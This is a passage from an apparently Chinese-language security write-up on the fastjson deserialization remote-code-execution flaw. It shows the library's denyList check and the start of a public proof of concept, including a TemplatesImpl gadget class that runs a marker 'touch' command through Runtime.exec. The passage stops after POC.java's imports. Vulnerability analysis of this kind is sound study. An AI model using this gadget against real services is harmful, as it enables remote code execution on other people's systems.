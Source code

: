 我们可以看到其核心代码就是:

```java
 if (autoTypeSupport) {
     for (int i = 0; i < denyList.length; ++i) {
         String deny = denyList[i];
         if (className.startsWith(deny)) {
             throw new JSONException("autoType is not support. " + typeName);
         }
     }
 }
```

直接遍历denyList数组，只要引用的库中是以我们的黑名单中的字符串开头的就直接抛出异常中断运行。

### 3.2 &emsp;源码分析 ###

通过github上发布的[POC](https://github.com/shengqi158/fastjson-remote-code-execute-poc "https://github.com/shengqi158/fastjson-remote-code-execute-poc")进行源代码分析：

**Test.java：**

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("/usr/bin/touch /tmp/success.txt");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```

**POC.java：**

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

```